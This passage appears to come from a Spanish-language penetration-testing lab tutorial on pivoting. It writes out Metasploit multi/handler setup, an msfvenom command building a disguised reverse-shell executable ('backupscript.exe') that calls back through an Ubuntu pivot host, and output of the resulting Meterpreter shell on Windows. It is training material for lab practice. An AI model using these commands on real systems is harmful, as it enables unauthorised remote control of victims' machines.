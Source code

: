 ### Configuring & Starting multi/handler

```r
meterpreter > bg

[*] Backgrounding session 1...
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LPORT 8081 
LPORT => 8081
msf6 exploit(multi/handler) > set LHOST 0.0.0.0 
LHOST => 0.0.0.0
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 0.0.0.0:8081 
```

Ahora podemos crear un payload de reverse shell que enviará una conexión de vuelta a nuestro servidor Ubuntu en `172.16.5.129`:`1234` cuando se ejecute en nuestro host de Windows. Una vez que nuestro servidor Ubuntu reciba esta conexión, la reenviará a `attack host's ip`:`8081` que configuramos.

### Generating the Windows Payload

```r
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=172.16.5.129 -f exe -o backupscript.exe LPORT=1234

[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 510 bytes
Final size of exe file: 7168 bytes
Saved as: backupscript.exe
```

Finalmente, si ejecutamos nuestro payload en el host de Windows, deberíamos poder recibir una shell desde Windows a través del servidor Ubuntu.

### Establishing the Meterpreter session

```r
[*] Started reverse TCP handler on 0.0.0.0:8081 
[*] Sending stage (200262 bytes) to 10.10.14.18
[*] Meterpreter session 2 opened (10.10.14.18:8081 -> 10.10.14.18:40173 ) at 2022-03-04 15:26:14 -0500

meterpreter > shell
Process 2336 created.
Channel 1 created.
Microsoft Windows [Version 10.0.17763.1637]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\>
```

---

Nota: Al iniciar tu objetivo, te pedimos que esperes de 3 a 5 minutos hasta que todo el laboratorio con todas las configuraciones esté configurado para que la conexión a tu objetivo funcione sin problemas.